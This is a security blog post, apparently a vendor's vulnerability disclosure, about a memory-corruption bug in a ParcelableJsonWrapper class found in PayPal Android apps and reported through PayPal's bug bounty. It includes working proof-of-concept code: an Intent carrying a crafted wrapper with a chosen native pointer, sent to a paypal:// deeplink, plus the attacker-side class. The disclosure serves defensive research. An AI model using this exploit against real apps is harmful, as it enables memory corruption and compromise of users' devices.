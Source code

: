 Oversecured’s vulnerability scanner also detects such issues:

![](https://blog.oversecured.com/assets/images/parcelable_memory_corruption.png)

We followed PayPal’s standard disclosure policy and worked with PayPal’s Bug Bounty Team on this disclosure. PayPal in no way endorses Oversecured or its products and services.

Several PayPal apps had the class `com.paypal.android.p2pmobile.common.utils.ParcelableJsonWrapper` with the following code:

![](https://blog.oversecured.com/assets/images/paypal_report.png)

The memory corruption attack turned out as follows:

```
Intent intent = new Intent();
intent.setData(Uri.parse("paypal://deeplink/"));
intent.putExtra("evil", new ParcelableJsonWrapper("com.android.internal.util.VirtualRefBasePtr", "{'mNativePtr':3735928551}"));
startActivity(intent);


```

the `ParcelableJsonWrapper` class in the attacking app was rewritten as follows:

```
package com.paypal.android.p2pmobile.common.utils;

import android.os.Parcel;
import android.os.Parcelable;

public class ParcelableJsonWrapper implements Parcelable {
    public static Parcelable.Creator<ParcelableJsonWrapper> CREATOR = new Parcelable.Creator<ParcelableJsonWrapper>() {

        public ParcelableJsonWrapper createFromParcel(Parcel parcel) {
            return new ParcelableJsonWrapper(parcel);
        }

        public ParcelableJsonWrapper[] newArray(int i) {
            return new ParcelableJsonWrapper[i];
        }
    };

    public int describeContents() {
        return 0;
    }

    private String className;
    private String jsonData;

    public ParcelableJsonWrapper(String className, String jsonData) {
        this.className = className;
        this.jsonData = jsonData;
    }

    private ParcelableJsonWrapper(Parcel parcel) {
        this.className = parcel.readString();
        this.jsonData = parcel.readString();
    }

    public void writeToParcel(Parcel parcel, int i) {
        parcel.writeString(this.className);
        parcel.writeString(this.jsonData);
    }
}
```